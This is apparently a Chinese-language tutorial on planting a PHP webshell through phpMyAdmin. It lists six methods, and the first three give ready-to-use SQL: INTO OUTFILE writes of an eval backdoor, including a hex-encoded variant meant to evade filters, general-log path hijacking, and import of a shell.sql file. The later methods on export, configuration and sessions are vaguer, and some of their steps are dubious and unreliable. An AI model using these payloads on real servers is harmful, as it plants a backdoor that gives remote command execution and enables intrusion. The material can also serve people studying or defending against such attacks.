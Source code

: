 ### phpMyAdmin 写 Shell 的方法

**1. 利用 `SELECT ... INTO OUTFILE` 或 `DUMPFILE`**

这是最常用、最经典的 phpMyAdmin 写 Shell 方法。`INTO OUTFILE` 和 `DUMPFILE` 语句都允许将查询结果写入文件

- **前提条件：**

  - 数据库用户具有 `FILE` 权限
  - 目标服务器上的 MySQL 用户可以对网站目录有写入权限
  - `secure_file_priv` 参数没有被设置或被设置为可以写入的目录。如果这个参数被设置为 `NULL`，则该方法会失效

- **操作步骤：**

  1. 登录 phpMyAdmin
  2. 进入 SQL 查询页面
  3. 构造并执行 SQL 语句。通常，我们会写入一个简单的 PHP WebShell

  ```sql
  SELECT '<?php @eval($_POST["cmd"]);?>' INTO OUTFILE 'C:/xampp/htdocs/shell.php';
  ```

  或者使用十六进制编码来绕过可能的过滤：

  ```sql
  SELECT 0x3c3f70687020406576616c28245f504f53545b22636d64225d293b3f3e INTO OUTFILE '/var/www/html/shell.php';
  ```

- **优点：** 简单直接，成功率高

- **缺点：** 依赖于 MySQL 用户的 `FILE` 权限和服务器配置

**2. 利用日志文件写 Shell**

当 `INTO OUTFILE` 无法使用时，日志文件是一个很好的替代方案。如果 MySQL 的**通用查询日志**（general log）或**慢查询日志**（slow query log）是开启的，并且日志文件可写，我们就可以利用这个特性来写入 WebShell

- **操作步骤：**

  1. **查看日志状态：** 登录 phpMyAdmin，执行以下 SQL 语句来查看通用日志的开启状态和日志路径

     ```sql
     SHOW VARIABLES LIKE 'general_log';
     SHOW VARIABLES LIKE 'general_log_file';
     ```

  2. **设置日志路径：** 将日志路径设置为网站可访问的目录，例如 `/var/www/html/shell.php`

     ```sql
     SET GLOBAL general_log_file = '/var/www/html/shell.php';
     ```

  3. **开启日志：** 开启通用查询日志

     ```sql
     SET GLOBAL general_log = 'ON';
     ```

  4. **执行恶意查询：** 构造一个查询，其中包含我们的 WebShell 代码

     ```sql
     SELECT '<?php @eval($_POST["cmd"]);?>';
     ```

     这条查询语句和它的结果会被写入到 `shell.php` 文件中

  5. **关闭日志（可选）：** 为了避免日志文件过大，可以再次关闭它

     ```sql
     SET GLOBAL general_log = 'OFF';
     ```

- **优点：** 绕过了 `secure_file_priv` 的限制，只要有 `SUPER` 权限即可

- **缺点：** 需要 MySQL 用户拥有 `SUPER` 权限，并且日志功能必须是开启的，或者我们有权限开启它

**3. 利用 `phpMyAdmin` 导入功能**

这是最常用且最有效的方法之一。`phpMyAdmin` 的导入功能允许用户上传一个 `.sql` 文件，并执行其中的 SQL 语句。如果文件内容可控，我们就可以利用这个功能来写入 WebShell

- **前提条件：**

  - 拥有一个可上传的 `.sql` 文件
  - 具有导入数据库的权限

- **操作步骤：**

  1. 创建一个 `.sql` 文件，文件内容为写入 WebShell 的 SQL 语句。例如，使用 `SELECT ... INTO OUTFILE`

     ```sql
     -- shell.sql
     SELECT '<?php @eval($_POST["cmd"]);?>' INTO OUTFILE 'C:/xampp/htdocs/shell.php';
     ```

  2. 登录 `phpMyAdmin`，选择一个数据库

  3. 点击导航栏的“导入”选项卡

  4. 选择你创建的 `shell.sql` 文件，然后点击“执行”按钮

  5. `phpMyAdmin` 会执行 `shell.sql` 中的 SQL 语句，从而在服务器上写入 WebShell

**4. 利用 `phpMyAdmin` 文件导出功能**

这个方法与导入功能相反，它利用的是导出功能。在某些配置下，`phpMyAdmin` 允许将数据库或表中的数据导出为文件。

- **前提条件：**

  - 数据库用户具有 `FILE` 权限
  - `secure_file_priv` 参数没有限制
  - 需要创建一个包含 WebShell 代码的表

- **操作步骤：**

  1. 登录 `phpMyAdmin`，进入一个数据库，然后点击“SQL”选项卡

  2. 创建一个新的表，将 WebShell 代码作为一行数据插入进去

     ```sql
     CREATE TABLE `shell_table` (`data` TEXT NOT NULL);
     INSERT INTO `shell_table` (`data`) VALUES ('<?php @eval($_POST["cmd"]);?>');
     ```

  3. 点击“导出”选项卡，选择刚才创建的 `shell_table` 表

  4. 在导出选项中，选择导出为 `.sql` 文件，并勾选“导出为独立文件”

  5. 修改导出路径，将其指向网站可访问的目录，例如 `/var/www/html/shell.php`

  6. 点击“执行”，`phpMyAdmin` 就会将包含 WebShell 代码的表数据导出为 `shell.php` 文件

**5. 利用 `phpMyAdmin` `PHPMYADMIN` 配置文件**

这是一种更高级、更具技巧性的方法，它利用了 `phpMyAdmin` 自身的配置文件。在某些旧版本或配置不当的环境中，`phpMyAdmin` 允许通过后台界面修改一些配置

- **前提条件：**
  - `phpMyAdmin` 版本存在相关漏洞，例如 `PHPMYADMIN` 4.0.0-4.0.5 之间的版本
  - 拥有足够的权限来修改配置
- **操作步骤：**
  1. 登录 `phpMyAdmin`，进入“设置”页面
  2. 寻找允许修改文件路径或文件名的选项，例如“导出文件路径”或“临时目录”
  3. 将这些路径修改为包含 WebShell 代码的文件名，例如 `shell.php`
  4. 在某个地方输入 WebShell 代码，当 `phpMyAdmin` 尝试使用这个修改后的路径时，就会将 WebShell 代码写入文件

**6. 利用 `phpMyAdmin` `SESSION` 文件写 `SHELL`**

这个方法是利用 `phpMyAdmin` 处理会话文件时的漏洞

- **前提条件：**
  - `phpMyAdmin` 的会话文件可控
  - 具有足够的权限
- **操作步骤：**
  1. 在登录 `phpMyAdmin` 的过程中，构造一个恶意的 `SQL` 查询，其中包含 WebShell 代码
  2. 由于 `phpMyAdmin` 会将会话信息保存在服务器的 `SESSION` 文件中，如果其没有对输入进行严格过滤，那么恶意代码可能会被写入 `SESSION` 文件
  3. 找到 `SESSION` 文件的路径，然后访问该文件。由于会话文件是 PHP 文件，其中的恶意代码会被执行，从而获得 WebShell